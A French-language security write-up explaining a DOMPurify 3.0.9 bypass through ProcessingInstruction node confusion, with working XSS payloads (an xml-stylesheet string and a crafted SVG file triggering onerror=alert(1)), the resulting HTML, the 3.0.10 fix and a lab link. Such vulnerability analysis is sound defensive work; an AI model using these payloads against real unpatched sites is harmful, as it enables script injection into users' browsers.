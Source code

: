 # Dompurify 3.0.9 bypass - Node type confusion

## Crédits

Cet article se base sur les recherches de [slonser\_](https://twitter.com/slonser\_) ([https://blog.slonser.info/posts/dompurify-node-type-confusion/](https://blog.slonser.info/posts/dompurify-node-type-confusion/)).

## Confusion HTML et XML

Au sein d'un document HTML, rien n'empêche un noeud XML d'avoir un noeud HTML en tant que parent. C'est par exemple le cas d'un SVG intégré au sein d'une page HTML :

```html
<div id="userContent">
  <svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
    <rect width="50" height="50" fill="green" />
  </svg>
</div>
```

L'image vectorielle s'affichant sans erreur au sein de la page.

### L'interface ProcessingInstruction

L'interface `ProcessingInstruction` représente un noeud qui intègre une instruction de traitement spécifique à une application XML. Elle possède le format suivant :&#x20;

```xml
<?target data?>
```

Par exemple :&#x20;

```xml
<?xml-stylesheet href="style.css"?>
```

Lorsque Dompurify assainit une chaîne de caractères de type XML, et que l'option adéquate est :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?xml-stylesheet <img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'}); 
```

Les instructions de traitement (`ProcessingInstruction`) ne semblent pas être assainies par la bibliothèque. L'évenement `onerror` ainsi que l'appel à la méthode `alert()` ne sont pas supprimés : &#x20;

```html
<div id="userContent">
  <!--?xml-stylesheet <img src=x onerror=alert(1)-->
</div>
```

Malheureusement, le code est commenté par le navigateur, empêchant ainsi son exécution : &#x20;

<figure><img src="../../../.gitbook/assets/image (328).png" alt=""><figcaption><p><a href="https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction">https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction</a></p></figcaption></figure>

Toutefois, le navigateur commente le code jusqu'à rencontrer le prochain caractère `>`, il est donc possible d'exploiter ce comportemement de la façon suivante :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?xml-stylesheet ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'}); 
```

L'affichage de la page HTML provoque dorénavant l'exécution de la méthode `alert()` :&#x20;

```html
<div id="userContent">
  <!--?xml-stylesheet -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

Par défaut, Dompurify traite la chaîne de caractères comme du HTML, et non du XML. De plus, il est assez rare d'identifier une cible imposant ce type de média et intégrant ensuite la donnée assainie au sein d'un document HTML.

### Assainissement d'un noeud

La manière la plus fréquente d'utiliser la méthode `sanitize()` de Dompurify est de lui passer une chaîne de caractères en tant que paramètre :&#x20;

{% code fullWidth="false" %}
```javascript
DOMPurify.sanitize("<img src='https://example.com/image.png'>")
```
{% endcode %}

Mais bien que moins utilisé, il est également possible de lui passer directement un noeud :&#x20;

```javascript
let img = document.createElement('img');
img.src = "https://example.com/image.png";

let userContent= document.getElementById('userContent');            
userContent.innerHTML = DOMPurify.sanitize(img);
```

Toutefois, lorsque le noeud est un noeud XML, le même comportement que précédent est possible lors de l'utilisation des `ProcessingInsruction`.

L'exemple suivant illustre une fonctionnalité permettant à l'utilisateur de fournir une URL afin de charger un fichier SVG, qui sera assaini par Dompurify avant d'être intégré au document HTML :

```javascript
let xhr = new XMLHttpRequest();

xhr.onreadystatechange = function() {
  if (xhr.readyState === 4 && xhr.status === 200) {
    let content = xhr.responseText;
    let extension = xhr.responseURL.split('.').pop().toLowerCase();

    if (extension === "svg") {
      let svg = new DOMParser().parseFromString(content, "image/svg+xml").documentElement;
      let userContent= document.getElementById('userContent');
      userContent.innerHTML = DOMPurify.sanitize(svg);
    }
  }
}

xhr.open("GET", url, true);
xhr.send();
```

Lorsque l'utilisateur renseigne une URL vers un fichier SVG, tel que :&#x20;

```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</svg>
```

Dompurify échoue à assainir le noeud et permet l'exécution du code Javascript :&#x20;

```html
<div id="userContent"><svg viewBox="0 0 100 100" height="100" width="100" xmlns="http://www.w3.org/2000/svg">
  <rect fill="green" height="50" width="50"></rect>
  <!--?xml-stylesheet --> </svg><img src="x" onerror="alert(1)"> 
  " ?> "
</div>
```

## Correctif

Le correctif, apporté par la version 3.0.10 de Dompurify, consiste à l'ajout du masque `SHOW_PROCESSING_INSTRUCTION` lors du traitement des noeuds XML. Cela permet de traiter les noeuds de type `ProcessinInstruction` :&#x20;

```javascript
const _createNodeIterator = function _createNodeIterator(root) {
  return createNodeIterator.call(root.ownerDocument || root, root,
  // eslint-disable-next-line no-bitwise
  NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION, null);
};
```

Cette constante est définit par l'API DOM et utilisée par la méthode `createNodeIterator()`  ([https://developer.mozilla.org/en-US/docs/Web/API/Document/createNodeIterator](https://developer.mozilla.org/en-US/docs/Web/API/Document/createNodeIterator)).

## Labs

Afin de tester et d'exploiter ce contournement, une image Docker est disponible [ici](https://github.com/Sharpforce/cybersecurity-code/tree/master/dompurif-3.0.9).

